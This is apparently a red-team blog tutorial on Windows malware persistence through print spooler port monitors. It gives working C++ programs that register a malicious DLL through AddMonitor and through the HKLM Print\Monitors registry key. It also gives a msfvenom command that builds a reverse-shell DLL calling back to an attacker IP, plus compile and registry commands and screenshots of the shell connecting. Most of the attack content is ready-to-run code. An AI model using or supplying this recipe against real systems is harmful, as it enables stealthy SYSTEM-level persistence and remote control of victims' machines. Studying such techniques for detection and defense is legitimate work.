 ```yaml
---
title:  "Malware development: persistence - part 8. Port monitors. Simple C++ example."
date:   2022-06-19 10:00:00 +0600
header:
  teaser: "/assets/images/59/2022-06-20_19-35.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/59/2022-06-20_19-35.png){:class="img-responsive"}    

This article is the result of my own research into the next interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinspool
```

![pers](/assets/images/59/2022-06-20_08-17.png){:class="img-responsive"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](/assets/images/59/2022-06-20_19-24.png){:class="img-responsive"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](/assets/images/59/2022-06-20_19-28.png){:class="img-responsive"}    

### registry persistence

A list of sub-key port monitors can be found within the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors` node. Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_15-48.png){:class="img-responsive"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow" /v "Driver" /d "evil2.dll" /t REG_SZ
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_18-17.png){:class="img-responsive"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

![pers](/assets/images/59/2022-06-20_18-17_1.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_18-17_2.png){:class="img-responsive"}    

And after a few minutes:    

![pers](/assets/images/59/2022-06-20_19-30.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_19-31.png){:class="img-responsive"}    

Let's go to check `Network` tab in Process Hacker 2:    

![pers](/assets/images/59/2022-06-20_19-34.png){:class="img-responsive"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

![pers](/assets/images/59/2022-06-20_19-33.png){:class="img-responsive"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Print\Monitors\Meow" -Name "Driver"
```

![pers](/assets/images/59/2022-06-20_21-22.png){:class="img-responsive"}    

My "dirty PoC" for registry persistence:    

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/meow/tree/master/2022-06-19-malware-pers-8)   

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
